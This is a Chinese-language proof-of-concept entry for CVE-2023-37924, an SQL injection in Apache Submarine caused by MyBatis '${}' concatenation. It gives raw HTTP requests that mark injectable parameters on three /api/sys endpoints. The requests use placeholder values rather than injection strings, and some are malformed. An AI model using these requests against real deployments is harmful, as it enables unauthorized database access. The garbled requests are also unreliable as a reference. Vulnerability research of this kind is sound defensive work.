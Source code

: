
## Apache-Submarine-SQL注入漏洞CVE-2023-37924
Apache Submarine是一个端到端的机器学习平台，允许数据科学家创建完整的机器学习工作流程，涵盖数据探索、数据管道创建、模型训练、服务以及监控的每个阶段。Apache Submarine存在SQL注入漏洞，由于在SysDeptMapper.xml、SysUserMapper.xml等文件中的SQL语句使用了"$"参数符号，导致用户可控的输入直接拼接到SQL语句中。未授权的攻击者可以通过向/sys/searchSelect等接口发送恶意的keyword参数，从而执行恶意的SQL语句。

## 影响范围
```
0.7.0<=apache-submarine<0.8.0.dev0
```
![image](https://github.com/user-attachments/assets/b4258cd3-b2ef-48a9-9a2f-59e2afdc9b8e)

## 漏洞点
从官方修复得代码来看，主要使用mybatis框架，并写法不规范，${}造成sql注入漏洞
![](./assets/20231123192338.png)


## poc
### api/sys/user/list   userNmae 和  email参数可控
```
GET /api/sys/user/list?column=createTime&order=desc&fieId=id,userName,realName&userNmae=&email= HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### /api/sys/dept/tree
```
GET /api/sys/dept/tree?=likeDeptCode=demoData&likeDeptName=demoData HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4
```

### api/sys/dict/list接口
```
GET /api/sys/dict/list?dictCode=demoData&dictName=demoData&column=&field=&order=pageNo=1&pageSize=10 HTTP/1.1
Host: 192.168.108.153:32080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 4

```

## 漏洞复现
![image](https://github.com/wy876/POC/assets/139549762/904c3929-8590-4a7d-a695-48b0bb1b2832)
![image](https://github.com/wy876/POC/assets/139549762/cdc34528-456b-4c51-ad35-f23d5752152d)

